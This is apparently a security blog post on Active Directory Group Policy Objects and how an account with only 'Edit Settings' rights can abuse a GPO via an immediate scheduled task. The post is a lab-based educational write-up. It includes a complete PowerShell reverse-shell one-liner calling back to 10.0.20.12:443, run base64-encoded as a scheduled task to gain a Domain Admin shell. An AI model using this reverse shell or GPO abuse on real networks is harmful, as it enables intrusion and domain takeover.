 ```yaml
---
title: "GPO - Attack path"
date: 2019-04-23 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "This article describes what is a GPO and shows a possible attack path when attacker has modification rights on a GPO applied to users"
tags:
  - "Active Directory"
  - Windows
---
```


This article describes what is a GPO (Group Policy Object) and shows a possible attack path when attacker has modification rights on a GPO applied to users.

<!--more-->

## Group Policy Object

### Definition

Active Directory has different purpose, one of which is to keep an homogeneous information system. Active Directory allows you to manage all hosts and users on your network. For that purpose, **Group Policy Objects** (GPO) are an indispensable tool.

Concretely, GPOs are sets of rules / actions applied to a well-defined set of objects. A GPO can do many, many things.

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

As seen in this screenshot, it's possible to create / modify scripts that will be executed at computer's startup and shutdown, change firewall settings, create scheduled tasks, or even add users in the local administration group. These are just a few examples to show how diverse and powerful GPOs are.

### GPO

A GPO is a set of 2 elements:
* A Container (Group Policy Container - GPC), which is the object registered in the Active Directory, under the group `adsec.local > system > policies`. Each GPO is identified by a domain's unique id.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

This is where GPO creation/modification rights are finely managed, like any object in the Active Directory.

* Files that contain information to be applied to machines or users. These files are present on each domain controller in the network share `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\` and it is accessible to every authenticated user. One Folder per GPO, the folder name being the unique identifier corresponding to the GPC container.

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

It is thanks to this network share that all domain accounts can retrieve and update their GPOs.

## Research context

In my crusade in Active Directory, I frequently use [Bloodhound](https://github.com/BloodHoundAD/BloodHound) developed by [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) and [@CptJesus](https://twitter.com/cptjesus), whom I can't thank enough for their work and availability on their slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

After watching [@wald0](https://twitter.com/_wald0) and [@CptJesus](https://twitter.com/cptjesus) [talk](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) at [WeAreTroopers](https://www.troopers.de/), I started looking for GPO attack paths. Bloodhound is of great help fot that because it includesan attack path when a domain account has `WriteDacl` rights on a GPO.

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

In this diagram, we see a user with a skull, corresponding to a compromised account. This account is member of group with `WriteDacl` rights on a GPO. This GPO finally applies to an Organisation Unit (OU) containing the user in the bottom right corner, target of the attack.

This `WriteDacl` right allows group members to modify concerned GPO ACLs (Access Control List), and can thus change the object's owner. It means that a member of this group can self-proclaim to be the owner, and modify it arbitrarily.

By default, when a GPO is created, few people have the right to modify it. Users can read it (mandatory to be able to apply it) but only the **Domain Admins** and **Enterprise Admins** group have full rights on it. They can modify it (Edit settings), remove it (Delete), and update the access rights (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)

If an administrator wants to delegate these permissions to a user without adding him to one of the two groups, he can do this via the delegation tab. It is a place that simplifies the rights management on a GPOs. It is quite possible to modify the rights directly at GPC level, but it is much more complex.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

According to the scroll barre, there is a very, very large number of access parameters.

It is therefore easier to go through the GPO management interface to add a user in order to delegate rights:

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Then we indicate the rights we grant him:

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Three choices are proposed, choices which are a preselection that makes life easier for administrators, by modifying very specific rights at GPC level.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Now this user is one of the users / groups that have the ultimate rights on this GPO. It is this total control that we appears in BloodHound when an entity has a **WriteDacl** link to a GPO. Indeed, this preset adds the security settings **Modify Owner** and **Modify Permissions** to the user.

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)

## "Edit Settings" right

We saw that we have three levels of delegation:

* Read
* Edit Settings
* Edit Settings, delete, modify security

Only the third level is supported in the BloodHound collection process. However, what happens if a user only has the right to modify the GPO, but not the associated ACLs? Since BloodHound does not track this relationship, I wanted to find out.

So I have created an example GPO, called **TestGPO Abuse**, which applies to all users belonging to the **Domain Users** Organizational Unit. As in the previous example, I added the modification right on this GPO to the user **jdoe** (Edit Settings), but he can **not** modify the ACLs (Modify security).

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## GPOs applied to users

In my research, I also wanted to know what I could do when the GPO only applied to users, not machines. This is why **TestGPO Abuse** only applies to the **Domain Users** OU. It means that all the controllable settings in the **Computer Configuration** part of the GPO will not apply if this GPO is intended for users. Only those in **User Configuration** will.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

But concretely, what is available in the GPO settings applied to a user? Much less, but interesting settings anyway!

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

You can see that  we can install packages, manage login / logout scripts once again, edit local groups and users and scheduled tasks.

## Exploitation via Immediate Scheduled Tasks

We will focus more specifically on the scheduled tasks. It is possible to create scheduled tasks that will run immediately when the GPO is applied to the user.

Let's log in as `jdoe` on a computer so we can create this task.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

The author of the task is `jdoe`, but he is not the one who will execute the task when the GPO is applied. It will be executed as the user working on the computer when the GPO is applied. It means that if `msmith` boots up a computer and logs in, the newly created GPO will be applied, and the script will be executed as `msmith`.

In the **Actions** tab, we indicate what will happen when it executes. Here, we use a Powershell reverse-shell so that when it is executed, the target user connect back to attacker and executes a shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

This code is encoded in base 64 and sent with the command `powershell -enc <command in base 64>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Once this task created, when the GPO is applied on a user, for example `support-account` (who is a Domain Administrator in this lab), the code is executed on the host as `support-accout`, and the attacker gains a shell as Domain Admin.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

The idea of this article is to show that GPOs are a pillar in Active Directory, and must be monitored just as much as many other objects.  An improperly placed permission can allow an attacker to abuse a GPO and  elevate his privileges in the information system.

We took here as an example a scheduled task applied to a user, however there are a large number of possibilities opened by GPOs that can be used to execute code.